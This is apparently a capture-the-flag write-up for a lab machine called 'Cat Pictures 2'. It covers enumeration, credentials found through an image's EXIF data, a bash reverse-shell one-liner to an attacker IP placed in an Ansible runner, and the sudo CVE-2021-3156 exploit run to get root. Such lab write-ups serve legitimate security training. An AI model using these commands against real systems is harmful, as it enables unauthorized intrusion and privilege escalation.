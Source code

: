 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Cat+Pictures+2)](https://git.io/typing-svg)

</br>

![Challenge Description](catpic2.png)

# Enumeration
##
### Let's begin with a rapid Nmap scan.
</br>

```bash
root@Fs:.../CTFs/catpictures2# nmap -sCV -oN nmap 10.10.44.70
# Nmap 7.80 scan initiated Mon Jul  3 19:58:08 2023 as: nmap -sCV -oN nmap 10.10.44.70
Nmap scan report for 10.10.44.70
Host is up (0.079s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
|_http-title: Lychee
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  3 19:58:29 2023 -- 1 IP address (1 host up) scanned in 21.17 seconds
```
##
    *80 — lychee*
    *8080 — python http server*
    *22,222 — ssh*
</br>

### Performing a scan using Dirsearch

```bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.187.79/-_23-07-06_21-12-01.txt

Error Log: /root/.dirsearch/logs/errors-23-07-06_21-12-01.log

Target: http://10.10.187.79/

[21:12:01] Starting: 
[21:12:03] 301 -  193B  - /robots.txt 
[21:12:04] 403 -  579B  - /.git/
[21:12:04] 403 -  579B  - /.github/
[21:12:04] 403 -  579B  - /.git/refs/
[21:12:04] 403 -  579B  - /.git/objects/
[21:12:04] 200 -  154B  - /.github/ISSUE_TEMPLATE.md
[21:12:04] 200 -  274B  - /.gitignore
[21:12:04] 200 -  630B  - /.htaccess
[21:12:07] 200 -  387B  - /.user.ini
[21:12:09] 200 -    1KB - /LICENSE
[21:12:10] 200 -    5KB - /README.md
```

I attempted to gather information by exploring the .git repository and robots.txt file, but unfortunately, I didn't find anything of interest.
</br>
After some time, I managed to discover interesting information from the EXIF data extracted from an image.

```
root@Fs:.../CTFs/catpictures2# exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
ExifTool Version Number         : 12.40
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 71 KiB
File Modification Date/Time     : 2022:11:07 19:44:37+01:00
File Access Date/Time           : 2023:07:06 21:20:55+01:00
File Inode Change Date/Time     : 2023:07:06 21:19:41+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Profile CMM Type                : Little CMS
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2012:01:25 03:41:57
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : c2
Profile Copyright               : IX
Media White Point               : 0.9642 1 0.82491
Media Black Point               : 0.01205 0.0125 0.01031
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Red Tone Reproduction Curve     : (Binary data 64 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 64 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 64 bytes, use -b option to extract)
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
Image Width                     : 720
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 720x1080
Megapixels                      : 0.778
```
this part
```Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt```
##
It appears that the system is utilizing The other web server to retrieve Info.

```red
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```
</br>
 samarium:TUmhyZ37CLZrhP
</br>

### Upon obtaining this information, we realized that there is a Gitea server running on port 3000, and we have obtained valid credentials for it.

![Screenshot from 2023-07-06 21-31-32](https://github.com/ACHUX21/Writeups/assets/130113878/d5da60f1-a1cd-4731-af5d-89b6eccc7f87)

# Gaining access
![image](https://github.com/ACHUX21/Writeups/assets/130113878/23cfac7c-5b54-494f-a91b-be69ffc138f1)
</br>

Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the execution of Ansible playbooks, I intend to replace the existing "echo" command with a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
```

After obtaining a shell, I discovered an "id_rsa" file, which I utilized to establish a more stable shell.
Subsequently, I attempted to exec Linpeas on the server to conduct further enumeration and analysis.
</br>
we have a vulnerable sudo version here.
After patiently waiting during the Linpeas scan, I stumbled upon an interesting CVE (Common Vulnerabilities and Exposures) in the target machine. To gather more information, I conducted a Google search and came across a GitHub proof-of-concept ([! POC](https://github.com/blasty/CVE-2021-3156)) related to the discovered vulnerability.

</br>

## Priv-Esc

Let's set up a Python3 server to share the CVE details with the target.

```bash
root@Fs:.../www/html# ll
total 9.6M
drwxr-xr-x 3 root  root  4.0K Jul  5 18:01 CVE-2021-3156/
-rw-r--r-- 1 root  root  3.1M Jun  4 05:27 linpeas_linux_amd64
-rwxrwxr-x 1 achux achux 817K Jun  6 16:41 linpeas.sh*
-rw-rw-r-- 1 achux achux 5.7M Jun  5 23:55 nmap
-rw-r--r-- 1 root  root   18K Jun  6 15:42 PwnKit
root@Fs:.../www/html# webup
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
! note : webup /=/ alias "webup='python3 -m http.server 8000'"


```bash
bismuth@catpictures-ii:/$ cd /tmp; wget -r 10.18.81.222/CVE-2021-3156/
```

let's go aHead to explore the CVE

```bash
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  Makefile  README.md
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  libnss_X  Makefile  README.md  sudo-hax-me-a-sandwich
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# 
```
And now we have pwned the machine
I appreciate your patience❤️ 





 
 













